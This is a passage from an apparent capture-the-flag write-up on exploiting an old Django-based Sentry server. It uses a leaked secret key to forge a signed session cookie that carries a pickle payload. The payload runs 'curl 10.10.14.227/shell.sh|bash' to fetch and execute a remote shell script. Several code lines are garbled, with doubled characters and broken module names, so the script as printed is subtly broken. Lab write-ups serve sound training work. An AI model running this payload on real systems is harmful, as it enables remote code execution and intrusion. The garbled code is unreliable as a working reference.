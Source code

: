 and there we can find the system secret key:

'system.secret-key': 'c7f3a64aa184b7cbb1a7cbe9cd544913'

## craft new cookie

as this is an old django version we need python2 for this.
I build a simple docker image to get this working

Dockerfile
```docker
FROM python:2.7
RUN apt-get update
```

build the image and start it

```bash
docker build -t python2.7 .
docker run -it python2.7 sh
```

in the container do the following steps to dowload the same django version and create a project

```bash
mkdir django && cd django
pip installl django~=1.6.11
django-admin.py startproject config .
```

then create the cookie.py with a cookie from the sentry website and your payload

```python
#!/usr/bin/python
import django.core.signing, django.contrib.sessions.serializers
from django.http import HttpResponse
import cPickle
import os

SECRET_KEY='c7f3a64aa184b7cbb1a7cbe9cd544913'
#Initial cookie I had on sentry when trying to reset a password
cookie='gAJ9cQEu:1mgzjA:B9ZAOSWLjLJmyLaObH1gNajCQ4s'
newContent =  django.core.signing.loads(cookie,key=SECRET_KEY,serializer=django..
contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backk
ends.signed_cookies')
class PickleRce(object):
    def __reduce__(self):
        return (os.system,("curl 10.10.14.227/shell.sh|bash",))
newContent['testcookie'] = PickleRce()

print django.core.signing.dumps(newContent,key=SECRET_KEY,serializer=django.contt
rib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backendss
.signed_cookies',compress=True)
```

--> paste the cookie into your browser session and reload
